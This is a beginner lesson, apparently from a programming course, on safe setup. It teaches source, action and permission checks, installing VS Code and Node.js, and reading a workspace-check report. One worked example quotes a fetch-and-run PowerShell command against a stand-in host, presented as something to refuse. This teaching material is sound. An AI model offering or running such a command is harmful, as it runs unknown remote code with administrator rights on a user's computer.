

# Set up a safe workspace

You can learn a great deal by reading. This course also asks you to run things on your own computer: install a tool, type a command, start a program somebody else wrote. That is where real skill is built. It is also the first moment a course can do damage, because a program you run is not a page you read. It acts.

This lesson answers two questions that every practical lesson depends on:

> "An instruction tells me to install or run something. How do I decide whether to do it?"
>
> "I did it. How do I know that it worked?"

By the end you will have a folder for your course work, a code editor, a tool called Node.js that runs the course's programs, and a short report from your own computer saying that they work together. You will also have a habit of three questions that you can apply to any instruction, from this course or from anywhere else. Professionals use the same habit every day. You keep it for your whole career.

Nothing here assumes programming knowledge. If a word is new, it is explained where it first appears.

The lesson is long, because it does three jobs: deciding what is safe to run (Sections 1 to 3), installing two tools (Sections 4 and 5), and checking the result (Sections 6 and 7). There is a marked place to pause after each of the first two. The steps were checked on Windows 11. The macOS and Linux steps follow the makers' documentation and have not yet been run by the author.

## 1. Start with a familiar situation: someone at your door

Your heating has stopped working. You look up a heating company, find the phone number on the company's own website, and call. They send an engineer the next morning.

When the engineer arrives, you let them in. Think about what that means. Once they are inside, they can go wherever you can go. They can open the cupboards, see the letters on the table, and stand next to your laptop. You do not follow them from room to room. You make tea.

Why is that reasonable? Three things make it so:

1. **You chose them.** You found the company yourself and you made the call. They did not arrive unasked.
2. **You know what they came to do.** Repair the heating. If you found them emptying a drawer in the bedroom, you would know at once that something was wrong.
3. **They need very little.** The boiler cupboard and perhaps the cellar. They do not ask for a key of their own, or for the code of your alarm.

Now a different morning. The doorbell rings and you have called nobody. A person in overalls says: "I'm here to check your heating. I'll need a key of my own, and please switch the alarm off while I work. It interferes with my equipment."

You would not let this person in, and you can say exactly why. You did not choose them. The job is vague. They are asking for far more than a heating check could need. And they are asking you to turn off the one thing that protects you. Each one is a warning. All four together mean: do not open the door.

There is a third kind of morning, and careful people get this one wrong. Your neighbour, whom you trust completely, pushes a leaflet through your door: "This handyman is brilliant and cheap, call this number." Your neighbour is honest. But your neighbour did not check the handyman. They only passed on a leaflet. Your trust in the neighbour tells you nothing yet about the person on the leaflet.

### Pause and explain

Before reading on, say it in your own words. At the door, what three things did you check without ever thinking of them as checks?

You checked **where the visitor came from**: did you choose them, or did they choose you? You checked **what they were going to do**: is the job clear, and does what they do match it? And you checked **what they wanted from you**: is it no more than the job needs, and are your protections left on?

## 2. A program you run is a visitor in your home

Keep that scene in mind. Each part of it has a matching part on your computer.

| At your door | On your computer |
| --- | --- |
| Your home and everything in it | Your computer: your documents, photos, saved passwords, email |
| You, the person who lives there | Your **user account**, the name you sign in with |
| Everywhere you can go in your home | Your account's **permissions**: everything your account is allowed to open, change or delete |
| A visitor you let in | A **program** you start |
| Opening the door | Double-clicking the program, or typing its name as a command and pressing Enter |
| The alarm, and the locks on the doors | Protections such as antivirus software and security warnings |
| The alarm code, and the right to change the locks | **Administrator** rights |
| The company you looked up and phoned | The maker's own website, which you went to yourself |
| The knock you did not expect | A link or a command that came to you: in an email, an advert, a chat message, a forum post |
| The leaflet your neighbour passed on | An instruction passed on by someone you trust: a colleague, a blog, an AI assistant |

Here is the mechanism behind the table, stated exactly.

When you start a program, your computer's **operating system** runs that program **as you**. The operating system is Windows, macOS or Linux: the software that manages everything else. The program does not get its own, smaller set of permissions. It gets yours. Any file your account can read, the program can read. Any file you can delete, it can delete. It can send what it reads over the internet. It does not have to ask first, and the operating system does not know what the program intends. From the system's point of view, you did those things.

Plan as if this is always true. Modern systems add a few extra questions on top. macOS, for example, asks before a program reads your Documents folder for the first time. Those questions help, and you should read them. They do not change the rule: **a program you run can do what you can do.**

**Administrator** rights go further. An ordinary account can change its own files. An administrator can change the computer itself, for every account on it: install software for everybody, alter system settings, switch protections off. In the doorstep scene that is the alarm code and the right to change the locks, for everyone who lives in the house.

That is why your computer stops and asks when a program wants that power. On Windows the screen dims and a box asks, "Do you want to allow this app to make changes to your device?" On macOS a box asks for your password or fingerprint. That box is the visitor asking for the alarm code. Sometimes the request is fair. An installer that places a program where every account can use it needs it once. The box is your chance to ask whether this visitor, for this job, should have it.

### Where the comparison helps, and where to stop using it

The doorstep gives you the right three checks. In two ways a program is unlike any human visitor, and both make the checks more important.

1. **A program is fast and invisible.** The engineer needs an hour and you could look in on them. A program can read ten thousand files in the time it takes you to lift your hand from the Enter key, and nothing on the screen has to show it. You cannot supervise a program while it runs. So all of your checking has to happen **before** you start it.
2. **A program cannot be asked.** You can ask a visitor what they are doing and judge the answer. A program does exactly what was written in it, whatever its name or its description says. The description is a claim made by whoever gave it to you. That is why "who gave it to me?" is the most important question.

None of this should make you nervous of your computer. Almost everything you will install in this course is used by millions of people every day. The three checks cost a few seconds, like looking through the window before you open the door. Do it every time. Then you never need to guess which time is the dangerous one.

## 3. Three questions before you run anything

Turn the doorstep checks into three questions. Ask them whenever an instruction, from any source, tells you to install or run something.

1. **Source: where does this come from, and did I go to it or did it come to me?** The strongest position is that you went to the maker's own site yourself. The weakest is that a link or a file arrived and asked to be opened.
2. **Action: what will it do?** You should be able to say it in one plain sentence. "It installs the editor." "It prints a report." If the only honest answer is "I don't know, it says it will fix things", then do not run it.
3. **Permission: what does it ask for, and is it only what the job needs?** Watch for two things in particular: a request for administrator rights for a job that should not need them, and any request to switch a protection off.

The questions are easiest to learn from examples. Here are three worked cases.

### Worked case A: an installer from the maker's site

An instruction says: *"Download the Node.js installer from nodejs.org and run it. The installer will ask for administrator permission."*

- **Source.** nodejs.org is the Node.js project's own site. Type the address yourself. If you use a search, read the address of the result before you click, and skip results marked as adverts. Either way, you went to the maker.
- **Action.** One sentence: it installs Node.js, a tool that runs programs.
- **Permission.** It asks for administrator rights once, during installation. Is that only what the job needs? Yes: it places the program in a part of the disk shared by all accounts, and only an administrator may write there. The request matches the job, and it comes at the moment the job needs it.

All three answers are clear, so you go ahead. Notice that you did not need to understand how Node.js works inside. You needed to know who made it, what it is for, and what it asked for.

### Worked case B: a "quick fix" from a forum

You search for an error message and find this fictional forum post:

> "Easy fix. Open PowerShell **as Administrator** and paste this:
>
> `irm http://node-setup-fast.example/get.ps1 | iex`"

You do not need to know this command language to judge the post, but it helps to hear what the line says. In words: *fetch a file of instructions from that web address, and carry the instructions out immediately.* The instructions are never saved on your disk where you could open and read them. They go straight from that address into action.

- **Source.** An unknown person, pointing at an address that belongs to no maker you can name. The address came to you. You did not go to it.
- **Action.** Unknown. The post says "fix", but what runs is whatever that address sends at the moment you press Enter. It may send something different tomorrow from what it sent the person who wrote "worked for me, thanks!"
- **Permission.** Administrator, so the whole computer.

All three answers are bad. You do not run it.

One more thing, and you will need it in Section 5. A command that fetches and runs in one line is not always dangerous. Some well-known projects publish their official installation method in exactly that form, on their own sites. What makes case B unsafe is the three answers: an unknown source, an unknown action, and the widest permission. The same kind of command from a maker's own documentation, without administrator rights, would get three different answers.

### Worked case C: "turn off your antivirus first"

A setup guide on somebody's blog says: *"If the installer is blocked, turn off your antivirus, install, and turn it on again afterwards."*

- **Source.** A blog, so second-hand: the neighbour's leaflet.
- **Action.** Clear enough: install a tool.
- **Permission.** This is where it fails. You are being asked to switch off the alarm so that a visitor can come in. If your protection is blocking an installer, there are two possibilities. The protection may be wrong, which happens. Or the installer you downloaded is not the one you think it is. The instruction asks you to assume the first without checking the second.

The safe response is to stop and find out which it is. Download the installer again from the maker's own site, and compare its file name and size with the first download. If it is still blocked, ask for help with the exact message. The next lesson is about precisely that. You do not turn the alarm off to get past it.

### Warning signs to remember

Any one of these is a reason to stop and ask the three questions slowly:

- You are told to **switch off a protection**: antivirus, a firewall, a security prompt, a browser warning.
- You are told to run something **as administrator** when the job is small, or you cannot see why it would need it.
- The thing to run is **fetched from an address you cannot connect to a maker**, or reaches you as an attachment.
- You are **hurried**: "do this now", "only works today", "your computer is at risk".
- You are asked to paste or type a **password, key or code** into something other than the place it belongs.
- The address is **hidden**: a shortened link, or text that says one thing and leads somewhere else.

### If your computer belongs to your employer

On a work computer you may find that you cannot install software at all, or that a box appears asking for an administrator password you do not have. Do not try to avoid this. In doorstep terms you are a tenant, and the landlord decides who may change the locks. That is deliberate. Ask your IT support for the two tools this lesson installs: **Visual Studio Code**, and **Node.js in the 24.x LTS line**. Those names are enough for them. Do not follow any instruction, from anyone, that promises to install things "without admin rights" by going around your employer's controls.

### A good place to pause

You now have the habit this lesson exists to teach: three questions, asked before you press Enter. The rest of the lesson uses it. Sections 4 and 5 choose a folder and install two tools.

## 4. Where your work will live: files, folders and paths

You need one place for everything you do in this course. To choose it well you need five words, which every later lesson uses.

A **file** is one named piece of stored content: a document, a picture, a program. A **folder** is a named container that holds files and other folders. Folders inside folders form a tree, and every file sits at exactly one place in it.

A **path** is the full address of a file or folder: the list of folders you pass through to reach it, starting from the top. Here is the same file on three systems:

```text
Windows   C:\Users\maria\course-work\workspace-check-kit\check-workspace.mjs
macOS     /Users/maria/course-work/workspace-check-kit/check-workspace.mjs
Linux     /home/maria/course-work/workspace-check-kit/check-workspace.mjs
```

Read a path the way you read a postal address written from the country down to the house. On Windows: on drive `C:`, in the folder `Users`, in the folder `maria`, in the folder `course-work`, in the folder `workspace-check-kit`, the file `check-workspace.mjs`. Windows separates the steps with a backslash, `\`. macOS and Linux use a forward slash, `/`, and have no drive letter.

The folder named after the user, `maria` here, is that person's **home folder**. It is the part of the disk that belongs to your account, and it is where your course work will go.

The last part of a file's name, after the final dot, is its **extension**. It tells you and the computer what kind of file this is. You will meet these soon:

| Extension | Kind of file |
| --- | --- |
| `.md` | Text with simple formatting marks (Markdown), used for notes and instructions |
| `.mjs`, `.js` | A program written in JavaScript |
| `.json` | Structured settings or data, as text |
| `.zip` | A single file that holds a packed copy of a whole folder |

Windows hides extensions unless you ask for them, which makes `check-workspace.mjs` look like `check-workspace`. Turn them on now. In File Explorer on Windows 11, choose **View → Show → File name extensions**. On Windows 10, open the **View** tab and tick **File name extensions**. On macOS, Finder's **Settings → Advanced → Show all filename extensions** does the same.

### A ZIP is not a folder yet

Course kits arrive as `.zip` files. A ZIP is **one file** with a folder packed inside it, like a flat-packed box. Before you can use the contents you must **extract** it, which unpacks a real folder onto your disk.

The trap is that Windows lets you double-click a ZIP and look inside without extracting it. It looks like a folder, and it is not one. VS Code cannot open it as a folder, and a program cannot be started from inside it. If the title of the window ends in `.zip`, you are looking into the box, not at an unpacked folder.

### Make the folder

Create a folder named `course-work` directly inside your home folder.

- **Windows:** open File Explorer, click the address bar, type `%USERPROFILE%` and press Enter. That opens your home folder. Create the new folder there.
- **macOS:** in Finder choose **Go → Home**, then **File → New Folder**.
- **Linux:** open your file manager's **Home** location and create the folder there.

Two details of that choice have reasons, and the reasons will save you trouble later.

**Why the home folder, and not Documents or the Desktop?** On many computers, Documents and Desktop are kept in sync with a cloud service: OneDrive on Windows, iCloud on macOS. Syncing is good for letters and photos. It is bad for programming work. Later lessons use tools that create folders with thousands of small files in a few seconds. A sync service that tries to upload each one can slow those tools down, or lock files while they are being written. A folder directly in your home folder is normally not synced.

**Why `course-work` and not `Course Work`?** In a terminal, which you will meet in Section 7, a space separates one word of a command from the next. A name with a space in it has to be wrapped in quotation marks every time. Names without spaces never need that. The terminal module explains quoting properly. Until then, avoiding spaces avoids the problem.

## 5. Install the two tools

You will install two things. For each one, apply the three questions yourself before reading the answers.

### Visual Studio Code, the editor

**Visual Studio Code**, usually called **VS Code**, is a code editor: a program for viewing a folder's files, editing text, and typing commands in a built-in terminal. It is made by Microsoft and it is free.

- **Source.** Go to `code.visualstudio.com` yourself and use the download button for your system. [VS Code: download](https://code.visualstudio.com/Download)
- **Action.** It installs the editor.
- **Permission.** On Windows, the standard download is the **User Installer**. It installs VS Code for your account only and does not ask for administrator rights at all. [VS Code on Windows](https://code.visualstudio.com/docs/setup/windows) On macOS you drag the application into your Applications folder. [VS Code on macOS](https://code.visualstudio.com/docs/setup/mac) On Linux you install the package for your distribution, which asks for your password. [VS Code on Linux](https://code.visualstudio.com/docs/setup/linux)

The Windows case shows what a good answer to the permission question looks like. A well-made installer asks for no more than it needs. For an editor used by one person, that is nothing beyond your own account.

Run the installer and accept its standard choices.

### Node.js, the runtime

A program such as `check-workspace.mjs` is a text file of instructions. A text file does nothing on its own. Something has to read the instructions and carry them out, and that something is called a **runtime**. **Node.js** is a runtime for programs written in JavaScript, and every kit in this course is run by it.

- **Source.** Go to `nodejs.org` yourself and open the download page. [Node.js: download](https://nodejs.org/en/download)
- **Action.** It installs Node.js, together with a companion tool called npm that a later lesson explains.
- **Permission.** On Windows and macOS the installer asks for administrator rights once, for the reason in worked case A.

The download page needs three careful steps. They describe the page as it was on 19 November 2026.

1. **Skip the box of commands at the top.** The page opens with commands for other tools that can install Node.js for you. Some of them are the fetch-and-run kind from worked case B, and the page itself notes that those scripts are not maintained by the Node.js project. This is the place Section 3 warned you about. This course does not use those tools yet, so you do not need to judge them today. Skip the box.
2. **Choose the 24 line.** Node.js is released in numbered lines. Open the version list near the top of the page and choose the entry that starts with **v24**. The page preselects a newer line. The newer line is not wrong, but this course's material was checked on 24. When your computer matches the lesson, a surprising result is much easier to explain. The 24 line is marked **LTS**, which stands for *long-term support*: the project keeps repairing it for years.
3. **Use the installer further down.** Scroll to the sentence that begins "Or get a prebuilt Node.js" and use the button below it: the **Windows Installer (.msi)** or the **macOS Installer (.pkg)**.

On Linux the page offers no installer, only the commands from step 1 and an archive to unpack by hand. The author has not run either route. Apply the three questions to the command the page offers, read the named tool's own site first, and ask for help before you run it if any answer is unclear.

Run the installer and accept its standard choices.

**On Windows, one page of the installer deserves a careful read.** It is titled **Tools for Native Modules**, and it has one box, which starts unticked. The box offers to "Automatically install the necessary tools" and notes that this "will also install Chocolatey". Leave it unticked. Apply the questions and you will see why. What you came for is Node.js. That box starts a second, much larger installation of several other tools, with administrator rights, and this course does not use them. It is an honest offer from a trustworthy source, clearly labelled. It is also more than the job needs, so the answer is no.

### How a terminal finds a program

One piece of how installation works explains a very common setup problem, so it is worth two minutes now.

Soon you will type the command `node --version`. You type a name, `node`, and the program starts. How does the computer know which file on a disk of hundreds of thousands is meant?

It does not search the whole disk. The program that reads your typed commands is called a **shell**, and it keeps a short list of folders known as **PATH**. When you type `node`, the shell looks in each folder on that list, in order, for a program with that name. If it finds one, it starts it. If it reaches the end of the list without finding one, it reports that the command is not recognised.

So an installer has two jobs. It copies the program's files onto your disk, and it makes sure they are in a folder that is on the PATH list. On Windows the Node.js installer does the second job by **adding its own folder to the list**. On macOS it places the program in a folder that is already on the list.

Read this diagram from top to bottom. The diamond is a question with two possible answers.



In words: you type the command, and the shell reads its PATH list. If one of the listed folders holds a program named `node`, the shell starts it and hands it the rest of what you typed, and Node.js prints its version. If none does, the shell reports that it does not recognise `node`.

Now the important detail. **A program does not look up the PATH list afresh each time. It is handed a copy by the program that started it, and it keeps that copy.** VS Code took its copy when VS Code started. Every terminal you open inside VS Code is handed VS Code's copy.

Follow what that means. Suppose VS Code is open while you install Node.js. The installer changes the list. VS Code still holds the old copy, from before. A terminal inside it, even a brand-new one, is handed that old copy, and in it `node` will not be found, although the installation succeeded.

So after installing a tool, **close every VS Code window and start VS Code again before you test it**. Opening a new terminal panel is not enough. Many reports that "the installation did not work" are this and nothing else. VS Code's own setup page describes the same effect. [VS Code on Windows](https://code.visualstudio.com/docs/setup/windows)

### A good place to pause

Both tools are installed. Nothing has been tested yet, and that is the job of the last two sections: open a kit, run one program, and read exactly what it reports.

## 6. Open the kit, and make your first trust decision

Download the kit offered with this lesson, **Workspace_Check_Kit_v1.zip**, and move the ZIP file into your `course-work` folder.

Extract it:

- **Windows:** right-click the ZIP and choose **Extract All**, then **Extract**. Windows creates a folder named after the ZIP, with the kit's own folder inside it.
- **macOS:** double-click the ZIP. The extracted folder appears beside it. If your browser unpacked the download for you, there is a folder and no ZIP: move the folder.
- **Linux:** use your file manager's **Extract Here**.

Find the folder named `workspace-check-kit` that directly contains the file `check-workspace.mjs`. On Windows it is one level down, inside the folder that Extract All created. That inner folder is the one you want.

### Open the folder in VS Code

Start VS Code and choose **File → Open Folder**. Select the `workspace-check-kit` folder itself, not a file inside it and not the folder above it.

VS Code now stops and asks a question:

> Do you trust the authors of the files in this folder?

This is the doorstep again, built into the editor. An editor that opens a folder can do things on that folder's behalf, such as running commands in it. VS Code will not do so until you say the folder's contents come from somebody you trust. Until then it stays in **Restricted Mode**: you can read every file, but the terminal, among other features, is held back. [VS Code: Workspace Trust](https://code.visualstudio.com/docs/editing/workspaces/workspace-trust)

Answer it with the three questions.

- **Source.** The kit came with this lesson, from your course. You downloaded it yourself.
- **Action.** Trusting the folder lets VS Code run commands in it when you ask.
- **Permission.** The dialog also offers a checkbox to trust the folder above this one. The job is to use this one kit, so that is more than the job needs. Leave it unticked.

Choose **Yes, I trust the authors**.

You have just made a real trust decision, so be exact about why you said yes. You said yes because of the **source**. In a moment you will open the program and read its opening comment, which says what it does. That is worth doing, and it is still a claim: you cannot yet check the code against the comment. Nobody, at any level of experience, reads every line of every tool before using it. Professionals place their trust in sources and stay alert to the warning signs. That is why the first question is the one that matters most.

### Look before you run

In the **Explorer**, the list of files at the left of the window, click `check-workspace.mjs`. It opens in the editor. Opening a file in an editor only shows its text. It does not start the program.

Read the comment at the top, the lines that begin with `//`. They say what the program does: it reads some facts about your computer, and it creates one small file in this folder, reads it back and deletes it, to prove that programs can write here. It changes nothing else and uses no internet connection. You do not need to follow the code below the comment today.

### The keyboard works too

Almost everything in VS Code can be done from the keyboard. That matters if you use a screen reader, find a mouse difficult, or simply prefer keys.

| What you want | Windows and Linux | macOS |
| --- | --- | --- |
| Find any action by typing its name (the **Command Palette**) | Ctrl+Shift+P | Shift+Command+P |
| Move to the next part of the window | F6 | F6 |
| Make everything larger | Ctrl+= | Command+= |

The Command Palette is the one to remember. Press it, type a few letters of what you want, such as "new terminal" or "open folder", and press Enter. You never have to hunt through menus. VS Code also has a screen reader mode and an accessibility help screen. [VS Code: accessibility](https://code.visualstudio.com/docs/configure/accessibility/accessibility)

## 7. Run the check and read what it says

A **terminal** is a panel where you type commands and read what programs print in reply. Open one inside VS Code: choose **Terminal → New Terminal**, or use the Command Palette and type "new terminal". A panel opens at the bottom of the window.

The terminal is the panel. The **shell** from Section 5 is the program running inside it, which reads what you type. PowerShell, bash and zsh are shells, and the panel shows the name of the one it is running.

The line waiting for your typing is the **prompt**. It usually shows a folder and ends in a symbol such as `>` or `$` or `%`. The examples below show only what you type, without the prompt.

A terminal opened this way starts **in the folder you opened**, `workspace-check-kit`. That starting folder matters: when a command names a file, the file is looked for there. The next lesson shows what happens when the terminal is somewhere else.

### First, ask Node.js for its version

Type this and press Enter:

```sh
node --version
```

`node` is the name of the program to start. `--version` is an **option**: extra words after the name that tell the program what to do this time. Here it means "print your version number and stop".

You should see one line, something like this:

```text
v24.12.0
```

The digits after `v24.` will probably differ on your computer, and that is fine. What matters is that an answer came back, and that it starts with `v24`.

Connect that to Section 5. You typed a name. The shell looked through its PATH list, found a program called `node`, and started it. If instead you see a message saying that `node` is not recognised or not found, the shell reached the end of its list without finding it. Go to "If something does not match" below.

### Predict, then run the check

Before you run the check, write down two predictions. A prediction you can compare with a result teaches more than a result alone, even when the prediction is wrong.

1. The check reports the **current folder** of the terminal. What path do you expect it to show?
2. The check reports whether the kit is in a **synced folder**. Given where you created `course-work`, do you expect a pass or a warning?

Now run it:

```sh
node check-workspace.mjs
```

Here `node` is again the program to start, and `check-workspace.mjs` tells it which file of instructions to carry out.

This is what the author's run printed on Windows 11. The folder path has been shortened to the example user from Section 4, and it has the extra step that Extract All adds on Windows (Section 6). Your numbers and paths will differ.

```text
Workspace check
===============
PASS  Node.js version: v24.12.0 (the course uses the 24.x line)
INFO  Operating system: Windows_NT 10.0.26200 (x64)
PASS  Current folder: C:\Users\maria\course-work\Workspace_Check_Kit_v1\workspace-check-kit
PASS  Synced folder: The path does not contain the name of a sync service.
PASS  Write permission: Created, read back and deleted a test file in the kit folder.
INFO  Memory (RAM): 31.5 GiB available to the system
INFO  Free disk space: 83.0 GiB free on the drive holding the kit.

Summary: 4 passed, 0 warnings, 0 failed.
Your workspace is ready. Read any WARN lines: they will not stop you today.
```

Compare the report with your two predictions before you read on.

### What each line establishes

Each line starts with one of four words. **PASS** means the check found what the course needs. **FAIL** means it did not, and something must be repaired before the next practical lesson. **WARN** means it found something that works today and may cause trouble later. **INFO** is a fact reported without a judgment.

| Line | What it tells you | What it does not tell you |
| --- | --- | --- |
| Node.js version | Which Node.js ran this program, and whether it is on the 24 line | That every later tool is installed. Each lesson installs what it needs. |
| Operating system | Which system and processor type you have. Useful when you ask for help. | Nothing is judged here. |
| Current folder | Where the terminal is, and whether that is the folder holding the program | That you will always be in the right folder. It is a fact about this terminal, now. |
| Synced folder | Whether the path contains the name of a common sync service | That the folder is certainly not synced. The check only reads the path's wording. |
| Write permission | That a program started by you can create, read and delete a file here | Anything about other folders. |
| Memory and free disk space | What this computer has. The check warns only when less than 5 GiB of disk is free. | Whether it is enough for a particular tool. Each course states what its tools need when they are introduced. |

Two details of the report look odd and are correct. Windows 11 describes itself to programs as `Windows_NT 10.0`, followed by a build number of 22000 or higher. macOS appears as `Darwin`. And **GiB** is the unit the program uses for memory and disk size. Read it as gigabytes.

The right-hand column of the table is there on purpose. A check tells you exactly what it checked. "Four passed" means those four things are true. It does not mean "everything is fine". Reading a report that carefully is a habit this course will ask of you again and again.

### If something does not match

Use the part that matches what you see.

**The terminal says `node` is not recognised, or "command not found".** The shell did not find Node.js on its PATH list. Work through these in order, testing with `node --version` after each one.

1. Close **every** VS Code window, start VS Code again, open the kit folder and open a terminal. VS Code now holds a fresh copy of the PATH list, and hands it to the terminal (Section 5).
2. Check that the installation really finished: look for Node.js in your system's list of installed applications. If it is not there, run the installer again.
3. Restart the computer once, then test again.

If it still fails, stop there and keep the exact message. The next lesson shows how to turn it into a request for help that somebody can answer.

**The terminal says `Cannot find module`, with a path ending in `check-workspace.mjs`.** Node.js started, and did not find the program in the terminal's folder. The usual cause is that the wrong folder was opened in VS Code: the folder above the kit, or a single file. Choose **File → Open Folder**, select `workspace-check-kit` itself, open a new terminal and run the check again.

**The Node.js version line says WARN or FAIL.** A FAIL means your Node.js is older than the 24 line. Install the 24 line from Section 5, close and reopen VS Code, and run the check again. If the line still shows the old version, a second, older copy of Node.js sits earlier on the PATH list. Stop there and ask for help with the whole report. A WARN means your Node.js is newer. Most things will behave the same. If a result later differs from what a lesson shows, this difference is the first thing to suspect and to mention when you ask for help.

**The Current folder line says WARN.** The program was started from a terminal that is in a different folder. Open the `workspace-check-kit` folder itself in VS Code, open a new terminal and run the check again.

**The Synced folder line says WARN.** The path looks like a synced one, most often because `course-work` ended up inside Documents or on the Desktop. Close VS Code, move the whole `course-work` folder into your home folder (Section 4), open the kit folder from its new place and run the check again.

**The Write permission line says FAIL.** Programs cannot create files where the kit is. This happens when the kit was extracted into a protected folder, or when a security setting stops programs from writing there. Extract the kit into `course-work` in your home folder (Sections 4 and 6).

**The Free disk space line says WARN.** Less than 5 GiB is free on that drive. Nothing in this lesson needs more. Later lessons download larger tools, so make room before then.

**VS Code will not open a terminal.** The folder is in Restricted Mode. Click the **Restricted Mode** label at the bottom or top of the window, or use the Command Palette and type "manage workspace trust", then trust the folder (Section 6).

**An installer was blocked, or asked for a password you do not have.** Go back to "If your computer belongs to your employer" in Section 3. Do not look for a way around it.

## 8. Try it with less help

Complete explanations follow these four practices. Say your answer in your own words before you read them.

### Practice A: judge three instructions

For each instruction, answer the three questions: source, action, permission. Then decide: run it, refuse it, or say what you would need to find out first.

1. The official documentation of a database tool, which you reached from the maker's own site, says: *"Download the installer from this page and run it. It will ask for administrator permission in order to install a background service."* A background service is a program that starts together with the computer, for every account.
2. In a help forum, a stranger replies to your question: *"Known bug. Turn off Windows Security's real-time protection, then run the file I've attached, fix-node.exe. Takes ten seconds."*
3. A colleague you trust sends a chat message: *"Don't bother with the official site, it's slow. Use this instead, it's a faster Node installer:"* followed by a link to `nodejs-downloads.example`.

### Practice B: read two paths

A learner says: "VS Code will not open the kit as a folder, and when I give Node.js the path of the program it answers `Cannot find module`." Here are the paths of two attempts:

```text
Attempt 1   C:\Users\li\Downloads\Workspace_Check_Kit_v1.zip\workspace-check-kit\check-workspace.mjs
Attempt 2   C:\Users\li\course-work\Workspace_Check_Kit_v1\workspace-check-kit\check-workspace.mjs
```

1. In attempt 2, name the home folder, the folder the program is in, the file, and its extension.
2. One of the attempts could not have worked. Which one, and what in the path tells you?

### Practice C: explain a failure before you fix it

You install Node.js while VS Code is open. The installer reports success. In VS Code you open a brand-new terminal, type `node --version`, and the terminal answers that `node` is not recognised.

1. In two or three sentences, explain why this happens although the installation succeeded. Use the words *shell*, *PATH* and *copy*.
2. What do you do, and why does that work?
3. Suppose it still fails after you have closed and restarted VS Code. Name two things you would check next.

### Practice D: read a report

Another learner sends you this report and writes: "Three passed and it says my workspace is ready, so I'm ignoring the warning. And 7.8 GiB of memory is fine, the check didn't complain."

```text
Workspace check
===============
PASS  Node.js version: v24.12.0 (the course uses the 24.x line)
INFO  Operating system: Windows_NT 10.0.26200 (x64)
WARN  Current folder: The terminal is in C:\Users\li\course-work, but this program is in C:\Users\li\course-work\Workspace_Check_Kit_v1\workspace-check-kit. Open a terminal in the kit folder before running the commands in the lessons.
PASS  Synced folder: The path does not contain the name of a sync service.
PASS  Write permission: Created, read back and deleted a test file in the kit folder.
INFO  Memory (RAM): 7.8 GiB available to the system
INFO  Free disk space: 41.2 GiB free on the drive holding the kit.

Summary: 3 passed, 1 warning, 0 failed.
Your workspace is ready. Read any WARN lines: they will not stop you today.
```

1. Which three things does this report establish?
2. The learner's terminal is in `course-work`. What will happen if they now type `node check-workspace.mjs` there, and why?
3. Is the learner right that the check found 7.8 GiB of memory to be fine?

### Practice explanations

**A.**

1. *Run it.* Source: the maker's own site, reached by you. Action: installs the database tool, and you can say so in a sentence. Permission: administrator, and the instruction says why. Only an administrator may set up a program that starts with the computer for every account. The request is only what the job needs, and it is explained. If you hesitated because of the word "administrator", notice the difference from case B. There the permission came with an unknown source and an unknown action. Administrator rights are not a warning sign in themselves. A request for them that the job does not explain is.
2. *Refuse it.* Source: a stranger, with a file that came to you as an attachment. Action: unknown. The name `fix-node.exe` is a label somebody typed. Permission: you are asked to switch off a protection first, which is the clearest warning sign on the list. "Takes ten seconds" is the hurry sign as well. Nothing more needs finding out.
3. *Find out first, and in practice use the official site.* This is the neighbour's leaflet. Your colleague is trustworthy, and that tells you your colleague means well. It does not tell you who runs `nodejs-downloads.example` or what its installer contains. The address is not the maker's. The source is unverified, so the honest answer to "what will it do?" is "I can't tell". The official site may be slower, and slow is a small price. If you answered "run it, I trust my colleague", ask who you were trusting. It was not your colleague. It was a site your colleague passed on.

**B.**

1. The home folder is `C:\Users\li`. The program is in the folder `workspace-check-kit`, which is inside `Workspace_Check_Kit_v1`, inside `course-work`. The file is `check-workspace.mjs` and its extension is `.mjs`, a JavaScript program.
2. Attempt 1 could not have worked. One step of its path is `Workspace_Check_Kit_v1.zip`. A name ending in `.zip` is a file, not a folder, so everything "inside" it is still packed. The learner was looking into the ZIP without extracting it. That is why VS Code could not open a folder there and Node.js found no program at that path. Attempt 2 shows the result of **Extract All**: a real folder named after the ZIP, with the kit's folder inside. If you chose attempt 2 because its path looked longer or stranger, read each step of attempt 1 again and look at the extensions.

**C.**

1. The installer copied Node.js onto the disk and added its folder to the PATH list. But VS Code was already running, and it holds the copy of the list that it was given when it started, before the installation. The new terminal's shell was handed that old copy. When it looks for a program named `node`, it reaches the end of the list without finding one.
2. Close every VS Code window and start VS Code again, then open a terminal and run `node --version`. VS Code is now handed the list as it is today, with the Node.js folder on it, and passes that on to the terminal. If you answered "open a new terminal", that was the scenario: the terminal *was* new. A new terminal gets its list from VS Code, and VS Code still held the old one.
